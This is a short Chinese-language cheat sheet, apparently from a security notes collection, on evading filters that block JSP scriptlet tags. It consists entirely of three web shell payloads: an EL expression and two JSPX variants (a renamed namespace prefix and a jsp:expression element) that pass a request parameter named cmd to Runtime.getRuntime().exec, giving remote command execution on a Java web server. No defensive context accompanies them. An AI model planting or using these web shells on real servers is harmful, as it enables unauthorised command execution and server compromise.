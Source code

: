 # jsp标签绕过

## el表达式

```
${Runtime.getRuntime().exec(param.cmd)}
```

## jspx利用命名空间绕过

```jsp
<bbb:root xmlns:bbb="http://java.sun.com/JSP/Page" version="1.2">
<bbb:scriptlet>
 Runtime.getRuntime().exec(request.getParameter('cmd'))   
 </bbb:scriptlet>
</bbb:root>
```

## jspx利用<jsp:expression>绕过

```jsp
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2">
<jsp:expression>
 Runtime.getRuntime().exec(request.getParameter('cmd'))   
 </jsp:expression>
</jsp:root>
```
